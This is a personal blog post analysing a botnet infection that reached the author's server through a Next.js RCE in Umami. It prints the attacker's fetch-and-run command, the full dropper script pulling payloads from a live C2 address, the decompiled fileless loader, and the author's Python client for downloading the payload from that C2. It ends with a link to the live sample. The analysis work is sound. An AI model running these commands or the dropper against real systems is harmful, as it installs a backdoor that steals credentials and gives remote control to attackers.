




# Background

It was Saturday evening, and I was resting when Alibaba Cloud suddenly called, saying the server might have been hacked by intruders. I logged into the Alibaba Cloud console to check:


What I had been worrying about finally happened. The recently disclosed CVE-2025-55182 vulnerability is exploitable for RCE (Remote Code Execution). The Umami analytics tool running on my server used a vulnerable version of Next.JS. Earlier in the morning, I had manually updated my Umami, but it seems the official patch had not been released yet. The server alert originated from the umami container, which executed a remote shell script.
~~As a CTFer, it's hard to resist analyzing a sample delivered right to your doorstep, right?~~

# Analysis
## The Script
The warning from Alibaba Cloud showed the execution of a shell script:
```shell
/bin/sh -c wget https://sup001.oss-cn-hongkong.aliyuncs.com/123/python1.sh && chmod 777 python1.sh && ./python1.sh
```
I tried to manually download that `python1.sh`:
```shell
export PATH=$PATH:/bin:/usr/bin:/sbin:/usr/local/bin:/usr/sbin
mkdir -p /tmp
cd /tmp
touch /usr/local/bin/writeablex >/dev/null 2>&1 && cd /usr/local/bin/
touch /usr/libexec/writeablex >/dev/null 2>&1 && cd /usr/libexec/
touch /usr/bin/writeablex >/dev/null 2>&1 && cd /usr/bin/
rm -rf /usr/local/bin/writeablex /usr/libexec/writeablex /usr/bin/writeablex
export PATH=$PATH:$(pwd)

l64="119.45.243.154:8443/?h=119.45.243.154&p=8443&t=tcp&a=l64&stage=true"
l32="119.45.243.154:8443/?h=119.45.243.154&p=8443&t=tcp&a=l32&stage=true"
a64="119.45.243.154:8443/?h=119.45.243.154&p=8443&t=tcp&a=a64&stage=true"
a32="119.45.243.154:8443/?h=119.45.243.154&p=8443&t=tcp&a=a32&stage=true"

v="042d0094tcp"
rm -rf $v

ARCH=$(uname -m)
if [ ${ARCH}x = "x86_64x" ]; then
    (curl -fsSL -m180 $l64 -o $v||wget -T180 -q $l64 -O $v||python -c 'import urllib;urllib.urlretrieve("http://'$l64'", "'$v'")')
elif [ ${ARCH}x = "i386x" ]; then
    (curl -fsSL -m180 $l32 -o $v||wget -T180 -q $l32 -O $v||python -c 'import urllib;urllib.urlretrieve("http://'$l32'", "'$v'")')
elif [ ${ARCH}x = "i686x" ]; then
    (curl -fsSL -m180 $l32 -o $v||wget -T180 -q $l32 -O $v||python -c 'import urllib;urllib.urlretrieve("http://'$l32'", "'$v'")')
elif [ ${ARCH}x = "aarch64x" ]; then
    (curl -fsSL -m180 $a64 -o $v||wget -T180 -q $a64 -O $v||python -c 'import urllib;urllib.urlretrieve("http://'$a64'", "'$v'")')
elif [ ${ARCH}x = "armv7lx" ]; then
    (curl -fsSL -m180 $a32 -o $v||wget -T180 -q $a32 -O $v||python -c 'import urllib;urllib.urlretrieve("http://'$a32'", "'$v'")')
fi

chmod +x $v
(nohup $(pwd)/$v > /dev/null 2>&1 &) || (nohup ./$v > /dev/null 2>&1 &) || (nohup /usr/bin/$v > /dev/null 2>&1 &) || (nohup /usr/libexec/$v > /dev/null 2>&1 &) || (nohup /usr/local/bin/$v > /dev/null 2>&1 &) || (nohup /tmp/$v > /dev/null 2>&1 &)
#
```
I found that it downloads the corresponding ELF file based on the CPU architecture.

## The Loader
I attempted to manually download the binary for the amd64 architecture specified in the script above and opened it with IDA Pro:


```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  struct hostent *v3; // rax
  in_addr_t v4; // eax
  int v5; // eax
  int v6; // ebx
  int v7; // r12d
  int v8; // edx
  _BYTE *v9; // rax
  __int64 v10; // rcx
  _DWORD *v11; // rdi
  _BYTE buf[2]; // [rsp+2h] [rbp-1476h] BYREF
  int optval; // [rsp+4h] [rbp-1474h] BYREF
  char *argva[2]; // [rsp+8h] [rbp-1470h] BYREF
  sockaddr addr; // [rsp+1Ch] [rbp-145Ch] BYREF
  char name[33]; // [rsp+2Fh] [rbp-1449h] BYREF
  char resolved[1024]; // [rsp+50h] [rbp-1428h] BYREF
  _BYTE v19[4136]; // [rsp+450h] [rbp-1028h] BYREF

  if ( !access("/tmp/log_de.log", 0) )
    exit(0);
  qmemcpy(name, "119.45.243.154", sizeof(name));
  *(_QWORD *)&addr.sa_family = 4213178370LL;
  *(_QWORD *)&addr.sa_data[6] = 0LL;
  v3 = gethostbyname(name);
  if ( v3 )
    v4 = **(_DWORD **)v3->h_addr_list;
  else
    v4 = inet_addr(name);
  *(_DWORD *)&addr.sa_data[2] = v4;
  v5 = socket(2, 1, 0);
  v6 = v5;
  if ( v5 >= 0 )
  {
    optval = 10;
    setsockopt(v5, 6, 7, &optval, 4u);
    while ( connect(v6, &addr, 0x10u) == -1 )
      sleep(0xAu);
    send(v6, "l64   ", 6uLL, 0);
    buf[0] = addr.sa_data[0];
    buf[1] = addr.sa_data[1];
    send(v6, buf, 2uLL, 0);
    send(v6, name, 0x20uLL, 0);
    v7 = syscall(319LL, "a", 0LL);
    if ( v7 >= 0 )
    {
      while ( 1 )
      {
        v8 = recv(v6, v19, 0x1000uLL, 0);
        if ( v8 <= 0 )
          break;
        v9 = v19;
        do
          *v9++ ^= 0x99u;
        while ( (int)((_DWORD)v9 - (unsigned int)v19) < v8 );
        write(v7, v19, v8);
      }
      v10 = 1024LL;
      v11 = v19;
      while ( v10 )
      {
        *v11++ = 0;
        --v10;
      }
      close(v6);
      realpath(*argv, resolved);
      setenv("CWD", resolved, 1);
      argva[0] = "[kworker/0:2]";
      argva[1] = 0LL;
      fexecve(v7, argva, _bss_start);
    }
  }
  return 0;
}
```
Analysis revealed several key malicious operations:
1. `v7 = syscall(319LL, "a", 0LL);`: `319` corresponds to the `memfd_create` system call on Linux x64, used to create an anonymous file in memory. Subsequently, it downloads a Payload from the target server and loads it into this memory region for execution. This is a Fileless Malware, which does not store the payload on the disk but loads it directly into memory.
2. `*v9++ ^= 0x99u;`: Decrypts the downloaded Payload by XOR-ing each byte with `0x99`, likely to evade firewall detection.
3. `argva[0] = "[kworker/0:2]";`: Disguises the process as a kernel `kworker` process.

Other operations:
1. Checks for the existence of the log file `/tmp/log_de.log` to determine if the server has already been compromised. If so, it exits immediately.
2. If connecting to the C2 server fails, it retries every 10 seconds to connect and load the Payload.

The C2 server IP `119.45.243.154` is evident from the reversed code, but the port wasn't immediately obvious. Let's analyze the port setting code:
```c
*(_QWORD *)&addr.sa_family = 4213178370LL;
```
Here, `4213178370LL` (DEC) = `0xFB200002` (HEX). Since it's a QWORD (64-bit value), the actual value is `0x00000000FB200002`. Due to little-endian byte order, the bytes stored in memory would be `02 00 20 FB 00 00 00 00`.
The typical memory layout for `sockaddr` is:
* offset 0–1: `sa_family` (2 bytes)
* offset 2–15: `sa_data` (14 bytes)

Thus, the assignment above does the following:
1. offset 0: Low byte of `sa_family` = `0x02`
2. offset 1: High byte of `sa_family` = `0x00`
3. offset 2: `sa_data[0]` = `0x20`
4. offset 3: `sa_data[1]` = `0xFB`
5. offset 4..7: `sa_data[2..5]` = `0x00 0x00 0x00 0x00`
Here, `sa_data[0..1]` represents the port, and `sa_data[2..5]` represents the IP address. Since network byte order is big-endian, the actual port is `0x20FB`, which is `8443`. The IP address assignment is found later:
```c
v3 = gethostbyname(name);
if ( v3 )
  v4 = **(_DWORD **)v3->h_addr_list;
else
  v4 = inet_addr(name);
*(_DWORD *)&addr.sa_data[2] = v4;
```

I wrote a Python script to connect to the server based on the loader's logic and attempt to download the Payload into an ELF file:
```python
import socket
import time
import os

C2_HOST = "119.45.243.154"
C2_PORT = 8443

OUTPUT_FILE = "payload.elf"

def xor_decode(data):
    return bytes([b ^ 0x99 for b in data])

def main():
    # Delete old file
    if os.path.exists(OUTPUT_FILE):
        os.remove(OUTPUT_FILE)

    while True:
        try:
            print(f"[+] Connecting to C2 {C2_HOST}:{C2_PORT} ...")
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((C2_HOST, C2_PORT))
            print("[+] Connected.")

            # Handshake
            s.send(b"l64   ")
            s.send(b"\x20\xfb")  # fake port
            s.send(b"119.45.243.154".ljust(32, b"\x00"))

            print("[+] Handshake sent.")
            print(f"[+] Writing decrypted ELF data to {OUTPUT_FILE}\n")

            with open(OUTPUT_FILE, "ab") as f:
                while True:
                    data = s.recv(4096)
                    if not data:
                        print("[-] C2 closed connection.")
                        break

                    decrypted = xor_decode(data)
                    f.write(decrypted)

                    print(f"[+] Received {len(data)} bytes, written to file.")

            print("[*] Reconnecting in 10 seconds...\n")
            time.sleep(10)

        except Exception as e:
            print(f"[-] Error: {e}")
            print("[*] Reconnecting in 10 seconds...\n")
            time.sleep(10)

if __name__ == "__main__":
    main()
```
Running it yielded an ELF file, `payload.elf`.

## Payload.elf
First, I uploaded it to Weibu Cloud Sandbox for detection, which confirmed it was a Trojan:


However, the sandbox didn't detect highly dangerous behaviors. I consulted a senior in reverse engineering, who analyzed the sample and determined it was written in Go. I used GoReSym to export the symbol table and loaded it into IDA Pro:
```cmd
\GoReSym.exe payload.elf > symbols.json
```
I had an AI write an IDA Pro script to import the symbol table:
```python
import json
import idc
import idaapi
import idautils

# ⚠️ Modify this: Path to your generated symbols.json file
json_path = r"D:\\Desktop\\symbols.json"

def restore_symbols():
    print("[-] Loading symbols from JSON...")
    try:
        with open(json_path, 'r', encoding='utf-8') as f:
            data = json.load(f)
    except Exception as e:
        print(f"[!] Error opening file: {e}")
        return

    # 1. Restore User Functions
    count = 0
    for func in data.get('UserFunctions', []):
        start_addr = func['Start']
        full_name = func['FullName']

        # Clean up characters IDA doesn't like
        safe_name = full_name.replace("(", "_").replace(")", "_").replace("*", "ptr_").replace("/", "_")

        # Attempt to rename
        if idc.set_name(start_addr, safe_name, idc.SN_NOWARN | idc.SN_NOCHECK) == 1:
            # Optionally, if renaming succeeds, try to re-analyze as code
            idc.create_insn(start_addr)
            idc.add_func(start_addr)
            count += 1

    print(f"[+] Successfully renamed {count} functions.")

if __name__ == "__main__":
    restore_symbols()
```
In IDA, I used `File` -> `Script file` to run the script and import the symbol table. Simultaneously, I provided the symbol table to an AI for analysis, which identified functions related to OSS bucket operations:
* `(*Config).GetAccessKeyID` / `GetAccessKeySecret` / `GetSecurityToken` -> **Steals or uses cloud credentials**.
* `Bucket.PutObjectFromFile` -> **Uploads files** (very likely exfiltrating data from your server to the attacker's OSS Bucket).
* `Bucket.DoPutObject` -> Executes the upload operation.
* `(*Config).LimitUploadSpeed` / `LimitDownloadSpeed` -> Limits bandwidth usage to avoid detection of abnormal network activity.

| Obfuscated Package Name | Real Package / Functional Guess | Evidence (Artifacts) | Behavior Description |
| :--- | :--- | :--- | :--- |
| **`ojQuzc_T`** | **Aliyun OSS SDK** | `PutObjectFromFile`, `GetAccessKeySecret` | Connects to Aliyun OSS, uploads/downloads files, steals credentials. |
| **`l2FdnE6`** | **`os/exec` (Command Execution)** | `(*Ps1Jpr8w8).Start`, `StdinPipe`, `Output` | **Executes system commands**. It calls Linux shell commands. |
| **`qzjJr5PCHfoj`** | **`os` / Filesystem Operations** | `Readdir`, `Chown`, `Truncate`, `SyscallConn` | Traverses directories, modifies file permissions, reads/writes files. |
| **`PqV1YDIP`** | **`godbus/dbus` (D-Bus)** | `(*Conn).BusObject`, `(*Conn).Eavesdrop` | Connects to Linux D-Bus. Possibly for **privilege escalation**, monitoring system events, or interacting with `systemd`. |
| **`c376cVel0vv`** | **`math/rand`** | `NormFloat64`, `Shuffle`, `Int63` | Generates random numbers. Often used for generating communication keys or randomness in mining algorithms. |
| **`r_zJbsaQ`** | **`net` (Low-level Networking)** | `DialContext`, `Listen`, `Accept`, `SetKeepAlive` | Establishes TCP/UDP connections, possibly for C2 communication or as a backdoor listening on a port. |
| **`J9ItGl7U`** | **`net/http2`** | `http2ErrCode`, `WriteHeaders`, `WriteData` | Uses HTTP/2 protocol for communication (likely to hide C2 traffic). |
| **`Otkxde`** | **ECC Cryptography Library** | `ScalarMult`, `Double`, `SetGenerator` | Elliptic curve encryption. Possibly for encrypting C2 communication or as an encryption module for **ransomware**. |

We can infer some possible program logic:

1.  **Persistence & Control (D-Bus & Net):**
    *   It attempts to connect via D-Bus using the `PqV1YDIP` package, which is less common in server malware. It might be trying to hijack system services or monitor administrator activity.
    *   It listens on ports or establishes reverse connections via `r_zJbsaQ`.

2.  **Data Exfiltration (Aliyun OSS):**
    *   It doesn't send data back to a typical C2 server IP but uses Aliyun OSS as a "transit point." This is a clever tactic because traffic to Aliyun is often considered whitelisted by firewalls and harder to detect.

3.  **Command Execution (os/exec):**
    *   It has full shell execution capabilities (`l2FdnE6`), allowing it to execute arbitrary commands, download scripts, and modify file permissions.

4.  **Possible Ransomware or Cryptominer Features:**
    *   Numerous mathematical operation libraries (`Otkxde`, `HfBi9x4DOLl`, etc., contain many `Mul`, `Add`, `Square`, `Invert`) suggest it is **computationally intensive**.
    *   If it's **ransomware**: These math libraries are used to generate keys for encrypting files.
    *   If it's a **cryptocurrency miner**: These libraries are used to calculate hashes. Combined with its use of `Shuffle` and `NormFloat64` from `math/rand`, this aligns with features of some mining algorithms (like RandomX).

Further analysis led to a function named `UXTgUQ_stlzy_RraJUM`:


I had an AI analyze it and the conclusion was:

This is a very typical **C2 (Command & Control) instruction dispatcher function written in Golang**.

Combined with the context of the "Linux loader" mentioned earlier, this function belongs to the **core Trojan (Bot)** that was downloaded and executed by that loader.

### 1. Overview and Location
* **Function**: **Instruction Dispatcher (Command Dispatcher)**. This is part of the main loop logic of the Trojan, responsible for receiving command strings from the C2 server, parsing them, and executing corresponding malicious functions.
* **Security Mechanism**: The function begins with an authentication check `if ( v18 == a2 && (unsigned __int8)sub_4035C0() )`. If validation fails, it returns `"401 Not Auth"`, indicating that this Trojan has some anti-scanning or session authentication mechanisms.

### 2. Detailed Reverse Engineering of the Instruction Set
The code uses `switch ( a4 )` to determine the length of the command string and then checks its specific content. There are numerous hardcoded strings and Hex values here:

#### **Case 1 (Single-character commands - Basic Control)**
These are likely remnants of an early version or shorthand commands designed to reduce traffic:
* **`I`**: Calls `os_rename`. Function: **Renames a file**.
* **`E`**: Calls `os_removeAll`. Function: **Deletes files/cleans traces**.
* **`J`**: Returns "0" or unknown. Possibly used for heartbeat detection or status queries.
* **`Z`**: Returns `"mysql_close\t1"`. Function: **Database-related**. It's inferred that this Trojan includes a MySQL brute-force or connection module, and this command closes the connection.
* **`H`**: Possibly gets host information (Host Info).
* **Other single letters (A-Y)**: Call different sub-functions (like `sub_7CAF40`), typically corresponding to: enabling proxies, executing shell commands, obtaining system load, etc.

#### **Case 4 (Four-character commands)**
* Hex: `1414092869` -> Little Endian: `0x54495845` -> **"EXIT"**
* **Function**: Terminates the Trojan process.

#### **Case 8 (Eight-character commands - Core Functions)**
This is the most critical part, exposing the Trojan's core capabilities:
1.  **`Download`**
    *   Hex: `0x64616F6C6E776F44LL` -> **"Download"**
    *   **Function**: Downloader functionality. Downloads files from a specified URL.
    *   **Code Logic**: If `a11` (callback function or interface) exists, it calls it to process the download result.
2.  **`LocalRun`**
    *   Hex: `0x6E75526C61636F4CLL` -> **"LocalRun"**
    *   **Function**: **Local execution**. Likely executes a local shell script or binary file.

#### **Case 9 (Nine-character commands - Advanced Attacks)**
1.  **`InjectRun`**
    *   Hex: `0x75527463656A6E49LL` + `'n'` -> **"InjectRun"**
    *   **Function**: **Memory injection execution**. This is an advanced feature, used in conjunction with `memfd_create` seen earlier. It typically refers to injecting a payload into another process or running it directly in memory without touching the disk.
2.  **`PluginRun`**
    *   Hex: `0x75526E6967756C50LL` + `'n'` -> **"PluginRun"**
    *   **Function**: **Plugin execution**. This indicates that the Trojan is **modular** and can dynamically load `.so` or Go `plugin` modules to extend functionality (such as cryptocurrency mining, DDoS attacks, port scanning, etc.).

### 3. Response Construction Logic
After the `switch` block, there is a complex string concatenation logic:
* `*(_WORD *)v71 = 15917` -> ASCII for `|` and `}`? Or specific delimiters.
* `*(_BYTE *)(v80 + v79 + 2) = 45` -> ASCII for `-`.
* **Conclusion**: The Trojan wraps the command execution result (like "OK", "Error", or specific data) with specific delimiters (e.g., `|<result>-`) before sending it back to the C2.

### 4. Summary and Profile

Combined with the previous code (the Loader), we can create a complete profile for this Trojan:

* **Family Speculation**: This naming style (**InjectRun / PluginRun / LocalRun**), combined with being written in Go and supporting modular plugins, strongly resembles the **Spark** botnet or a variant (like a modified version of the **Sliver** C2, but it's more akin to a custom-built blackhat bot). It could also be a variant of the **Sysrv-hello** mining worm (which often mixes Go and exploits).
* **Attack Chain**:
    1.  **Loader**: The earlier C code, responsible for environment detection, persistence, and downloading the Bot in memory.
    2.  **Bot (this code)**: This Go program, resident in memory.
    3.  **Modules**: Dynamically delivers mining modules (like XMRig) or DDoS attack modules via `PluginRun`.
    4.  **Lateral Movement**: The `mysql_close` hint suggests it has password-scanning capabilities and infects other machines on the internal network via `InjectRun`.

# Conclusion
Honestly, I felt there wasn't much more meaningful analysis to be done. The logic essentially confirms it's a typical Botnet. The discovered IP has a 99% probability of being a compromised zombie machine, so investigating it seems pointless.
The main takeaway is to summarize lessons learned on preventing such incidents. For small-scale personal websites like mine, when a CVE is disclosed, it's best to immediately disable all related services. Wait for a confirmed patched version to be released, then update and re-enable the services.

----
**Sample Download:**
* [Payload.zip](https://drive.iyoroy.cn/Misc/%E8%AE%B0%E4%B8%80%E6%AC%A1%E6%9C%8D%E5%8A%A1%E5%99%A8%E8%A2%AB%E6%8C%82RCE%E7%9A%84%E9%80%86%E5%90%91%E5%88%86%E6%9E%90%E7%BB%8F%E5%8E%86/Payload.zip)

**Note: This sample is unprocessed. Do not run it directly without proper security measures!**
Password: `20251206`
